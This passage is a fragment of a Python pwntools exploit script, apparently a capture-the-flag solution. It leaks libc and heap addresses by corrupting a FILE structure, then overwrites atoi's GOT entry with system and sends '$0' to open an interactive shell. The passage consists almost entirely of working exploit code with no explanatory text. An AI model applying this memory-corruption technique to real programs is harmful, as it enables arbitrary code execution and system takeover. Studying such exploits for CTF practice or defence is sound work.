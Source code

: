```python
spell(0,payload)
payload = p64(atoi_got) + p64(atoi_got + 0x100)
spell(0,payload)
atoi_addr = u64(p.recv(8))
print hex(atoi_addr)

# gdb.attach(p)
offset= atoi_addr - libc.sym['atoi']
system = offset + libc.sym['system']


# leak heap
spell(-2, '\x00' * 0x10)
spell(0, '\x00' * 10 + p64(0xfbad24a8))
spell(0, p64(log_file) + p64(log_file + 0x50))

heap = u64(p.recvn(8)) - 0x10
print 'heap:',hex(heap)



# change atoi to system
spell(0, p64(log_file) + p64(heap + 0x200) * 3)
spell(0, p64(atoi_got + 143) + p64(atoi_got + 0xAAA))
print "atoi_got:"+hex(atoi_got)

spell(-2, '\x00')
spell(-2, '\x00' * 3)
spell(-2, '\x00' * 3)

payload = '\x00' + p64(system)
spell(0, payload)
p.sendlineafter('choice>> ','$0')
p.interactive()
```


